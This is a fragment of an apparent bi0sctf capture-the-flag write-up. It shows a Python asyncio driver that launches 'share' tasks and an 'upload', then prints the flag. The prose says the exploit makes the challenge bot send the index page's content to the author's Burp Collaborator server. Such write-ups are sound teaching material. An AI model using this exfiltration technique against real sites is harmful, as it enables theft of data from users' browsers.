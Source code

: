 ```python
async def main():
    tasks = []

    for _ in range(5):
        tasks.append(asyncio.create_task(share()))
        await asyncio.sleep(3)

    await upload()
    await asyncio.gather(*tasks)

asyncio.run(main())


# Flag: bi0sctf{bDwj/VvYs+s2WJ+pQNIvTg==}
```


When the exploit is executed the bot will be redirected to our web server (we use burp collaborator) sending the original content of the index as parameter:

![](sid.png)